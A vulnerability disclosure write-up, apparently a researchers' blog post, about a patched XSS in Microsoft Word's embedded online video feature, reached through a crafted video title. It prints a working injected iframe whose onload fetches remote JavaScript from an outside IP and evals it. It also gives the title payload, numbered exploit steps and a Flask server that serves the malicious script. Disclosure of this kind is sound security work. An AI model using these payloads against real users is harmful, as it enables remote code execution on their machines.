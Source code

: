 ```yaml
---
layout: post
title:  "2023 Microsoft Office RCE"
date:   2023-10-04 14:57:20 +0900
---
```


Found by [@adm1nkyj](https://twitter.com/adm1nkyj1) and [@justlikebono](https://twitter.com/justlikebono)


# Summary

In the server, when parsing a video from a link designated by an attacker, a malicious payload included in the video title can trigger an XSS (Cross-site Scripting) attack, allowing the execution of arbitrary Javascript code.

# The Basics

- **Product:** Office Word, including Office 365 Word
- **Tested Version:** Microsoft Word for Microsoft 365 MSO (Version 2306 Build 16.0.16529.20164) 64-bit
- **Bug-class**: XSS(Cross-Site Scripting)

# The Vulnerability

  Various Office products, including MS Word, allow users to insert desired external videos into documents via the "Online Videos" tab.

![pic1.jpg](/assets/office-rce/pic1.jpg)

  When a user plays an external video embedded in a document, Office checks whether the provider of the external video is trustworthy, such as YouTube. This check is performed by applying the following regular expression to the URL.

```python
https?://(www\.)?youtube\.\w{2,3}/.*|https?://(www\.)?youtube-nocookie\.\w{2,3}/.*|https?://youtu\.be/.*|https?://(player\.)?vimeo\.com/.*|https?://(\w+\.)?slideshare\.net/.*|https?://(\w+\.)?microsoftstream\.com/.*
```

  If it is deemed trustworthy, it sends a request like the following to fetch data such as the video's title or thumbnail.

```python
GET https://hubble.officeapps.live.com/mediasvc/api/media/oembed?url=https%3A%2F%2Fwww.youtube.com%2Fembed%2FGX2nEmvxK-4%3Ffeature%3Doembed&streamsso=true&lcid=1033&syslcid=1042&uilcid=1033&app=0&ver=16&build=16.0.16529&platform=Win32 HTTP/1.1
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Word 16.0.16529; Pro)
X-IDCRL_ACCEPTED: t
X-Office-Version: 16.0.16529
X-Office-Application: 0
X-Office-Platform: Win32
X-Office-AudienceGroup: Production
X-Office-SessionId: DE75B69F-49BA-4D92-BD45-2B02504B4021
Host: hubble.officeapps.live.com
```

  The server at [hubble.officeapps.live.com](http://hubble.officeapps.live.com/) responds with information including the video's title, description, and the HTML iframe tag to play the video.

  The vulnerability arises from this iframe tag. The server adds the video's title to the “**title”** attribute of the iframe tag without any validation. As a result, by appropriately using double quotes, one can freely add an **onload** attribute to the iframe tag that the server responds with.

  Below is an example of an [officeapps.live.com](http://officeapps.live.com/) server response to a malicious external video.

```json
{
    "description": "",
    "video_description": "",
    "start_time": null,
    "end_time": null,
    "embed_url": "https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed",
    "html": "<iframe width=\"200\" height=\"150\" src=\"https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed\" frameborder=\"0\" allow=\"accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share\" allowfullscreen=\"\" title=\"\" onload=\"fetch('http://158.247.239.32/a.js').then(function(a){a.text().then(function(a){eval(a)})})\" sandbox=\"allow-scripts allow-same-origin allow-popups\"></iframe>",
    "type": "video",
    "title": "\" onload=\"fetch('http://127.0.0.1/a.js').then(function(a){a.text().then(function(a){eval(a)})})",
    "provider_name": "YouTube",
    "provider_url": "https://www.youtube.com/",
    "thumbnail_url": "https://i.ytimg.com/vi/GX2nEmvxK-4/hqdefault.jpg",
    "thumbnail_width": 480.0,
    "thumbnail_height": 360.0,
    "width": 200.0,
    "height": 150.0
}
```

  Based on this response, Word writes an HTML file to be rendered through **Edge Webview** in the %LOCALAPPDATA%\Microsoft\Windows\INetCache\Content.Word directory.

  As a result, this HTML will include the JS code injected by the attacker. (The logic for this is implemented in wwlib!XszCreateVideoHTML. A detailed analysis of this is beyond the scope of this article.)

  As seen above, the sandbox attribute of the iframe has allow-scripts, allow-same-origin, and allow-popups set. This means that JavaScript can be executed, desired URIs can be run through window.open, or scripts from an external server can be executed via the fetch method.

# Exploit

1. As shown in the example in the vulnerability description, create a YouTube video with a title that includes a payload for inserting the onload attribute.

`" onload="fetch('[http://127.0.0.1/a.js](http://127.0.0.1/a.js)').then(function(a){a.text().then(function(a){eval(a)})})`

1. Click on the Online Videos tab in Word and insert the URL of the malicious video into the document.

![Untitled](/assets/office-rce/Untitled.png)

1. Set up a simple web server that allows CORS and responds with malicious javascript, as below. (The example executes calc.exe through the calculator URI Scheme.)

```python
from flask import Flask

app = Flask(__name__)

@app.after_request
def apply_cors(response):
    response.headers['Access-Control-Allow-Origin'] = '*'
    return response

@app.route('/a.js', methods=['GET'])
def exploit():
    return 'window.open("calculator://")'
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

# Demo

[PoC_Public.mp4](/assets/office-rce/PoC_Public.mp4)

# Conclusion

  The vulnerability has shown that an attacker can create a Word document containing a specific video and execute the arbitrary javascript code when playing the video.

  Past critical exploits of Office, such as CVE-2021-40444 and CVE-2022-30190 (Folina), all started with the execution of arbitrary javascript. If it's linked with a new vulnerable URI, like the previously exploited ms-msdt, it could directly lead to a critical RCE (Remote Code Execution) vulnerability.

  Especially as a vulnerability that triggers when a video embedded in Word is played, it's easy for an attacker to induce a user to play the video. Prompt action is required.

# Reference

- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190)

# TimeLine

- 2023-07-27 Vulnerability reported to MSRC
- 2023-08-25 Recognized as a security vulnerability with a severity of **Critical**
- 2023-09-12 Patched in the latest release
